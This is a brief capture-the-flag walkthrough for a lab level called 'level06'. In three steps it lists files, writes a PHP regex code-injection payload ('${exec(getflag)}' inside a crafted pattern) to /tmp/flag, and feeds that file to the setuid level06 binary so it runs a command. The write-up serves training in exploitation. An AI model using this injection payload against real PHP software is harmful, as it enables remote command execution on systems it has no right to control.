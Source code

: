 ## Step 1
> ls -l ~

We saw two files ``level06`` and ``level06.php``. ``level06`` is executed by flag06.

## Step 2
> echo '/(\[x (.{${exec(getflag)}})\])' > /tmp/flag

After analyzing ``level06.php``, we were able to determine a possibility to use it and get the flag.

## Step 3
> ./level06 /tmp/flag
